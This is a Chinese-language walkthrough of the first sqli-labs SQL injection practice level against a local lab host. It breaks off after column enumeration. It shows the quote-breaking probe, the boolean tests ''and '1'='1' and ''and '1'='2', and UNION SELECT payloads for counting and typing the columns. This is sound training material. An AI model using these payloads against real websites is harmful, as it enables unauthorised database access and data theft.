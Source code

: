 # Basic Challenges

## 第一关

![image-20220115150656786](https://raw.githubusercontent.com/lant34m/pic/main/img/image-20220115150656786.png)

通过输入

```
http://172.16.12.96:86/Less-1/?id=1
```

将id作为变量输入

![image-20220115150904205](https://raw.githubusercontent.com/lant34m/pic/main/img/image-20220115150904205.png)

输入单引号闭合查看

```
http://172.16.12.96:86/Less-1/?id=1'
```

![image-20220115150944804](https://raw.githubusercontent.com/lant34m/pic/main/img/image-20220115150944804.png)

可以看出有个LIMIT语句从第0个数据开始取，取出一个数据

数据库是Mysql数据库

利用

```sql
'and '1'='1
'and '1'='2
```

判断注入

![image-20220115151251846](https://raw.githubusercontent.com/lant34m/pic/main/img/image-20220115151251846.png)

![image-20220115151302785](https://raw.githubusercontent.com/lant34m/pic/main/img/image-20220115151302785.png)

存在SQL注入漏洞

查看返回值数量

```sql
'+union+select+null,+null,+null--+
```

![image-20220115151637831](https://raw.githubusercontent.com/lant34m/pic/main/img/image-20220115151637831.png)当使用上述语句时，返回值正常，返回三个值

继续猜解，判断三个返回值的数据类型，发现未报错但并不显示。

上网查询学习到

==虽然数据进行了正常的返回，但因为有Limit的限制，选取了第一个数值所以后面信息并没有显示出，需要查询一个并不存在的值，使id查询为空==

```sql
' union select 'a', 'l', 'a'--+
```

![image-20220115153500041](https://raw.githubusercontent.com/lant34m/pic/main/img/image-20220115153500041.png)

第二和第三的是返回字符类型

